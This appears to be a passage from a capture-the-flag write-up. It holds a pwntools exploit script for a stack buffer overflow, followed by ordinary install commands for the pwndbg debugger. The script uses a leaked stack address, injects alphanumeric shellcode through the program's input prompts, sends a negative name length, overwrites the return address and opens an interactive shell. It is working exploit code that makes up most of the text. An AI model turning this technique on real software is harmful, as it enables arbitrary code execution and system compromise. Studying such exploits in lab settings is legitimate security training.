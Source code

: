 ```python
# Below processes the user input
    p.sendlineafter(b'Would you like to enroll yourself? (y/n): ', b'y')

# Below processes binary output which was a leaked memory address

    p.recvuntil(b'Great! Here\'s a small welcome gift: ')
    stack_leak = int((p.recvline().decode('latin-1').split()[0]),16)
    log.info(f'Stack leak: {hex(stack_leak)}')


# Alphanumeric shellcode
    shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'


# processing user input
    p.sendafter(b'Email: ', shellcode[:8])
    p.sendafter(b'Age: ', shellcode[8:16])
    p.sendlineafter(b'Length of name: ', b'-1')

# Defining the payload components
    offset = 104 #CHANGE-THIS
    
# Shifting the stack address 96 bytes to be at the beginning of the input. The input variable size was defined as 96 bytes

    stack_leak = stack_leak - 96

# Calculatiing the padding or the nop
    nop = b'A' * (offset - len(shellcode))

# Final Payload
    payload = shellcode + nop + p64(stack_leak)

# Sendling the payload 
    p.sendafter(b'Name: ', payload)

# Interactive shell
    p.interactive()


if __name__ == '__main__':
    main()
```

#### Using pwndbg to exploit BOF

\#Installation

```
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
echo 'source ~/pwndbg/gdbinit.py' >> ~/.gdbinit
```
